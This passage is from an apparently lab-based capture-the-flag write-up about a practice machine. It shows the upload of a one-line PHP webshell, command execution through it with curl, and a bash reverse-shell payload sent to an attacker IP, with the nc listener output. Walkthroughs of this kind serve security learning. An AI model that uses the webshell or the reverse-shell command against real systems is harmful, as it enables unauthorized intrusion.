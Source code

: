![image-20210726115027912](https://0xdfimages.gitlab.io/img/image-20210726115027912.png)

It changes the filename, but not the extension. However, the View link is broken, as it returns 404. That’s really odd.

### Webshell Execution

Because the note said that PHP files were being executed, I’ll upload a simple PHP webshell:

```

<?php system($_REQUEST["cmd"]); ?>

```

It shows up with a long hex filename, but with the same extension:

![image-20210721210609334](https://0xdfimages.gitlab.io/img/image-20210721210609334.png)

With `.php`, the View link does work, and if i add `?cmd=id` to the end, it show I have execution:

![image-20210721210648992](https://0xdfimages.gitlab.io/img/image-20210721210648992.png)

I’ll look at what’s going on with the webserver in [Beyond Root](#beyond-root).

I like to use `curl` to trigger web shells and that works too:

```

oxdf@parrot$ curl --data-urlencode 'cmd=id' -G -s http://10.10.10.230/a1ba6293840f8a8fb4d5dda74c98c90a.php
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### Shell

To get a shell from that, I’ll start `nc` listening and replace `id` with a reverse shell payload:

```

oxdf@parrot$ curl --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.19/443 0>&1'" -G -s http://10.10.10.230/a1ba6293840f8a8fb4d5dda74c98c90a.php

```

`curl` just hangs, but at `nc` there’s a shell:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.230] 59216
bash: cannot set terminal process group (1112): Inappropriate ioctl for device
bash: no job control in this shell
www-data@thenotebook:~/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
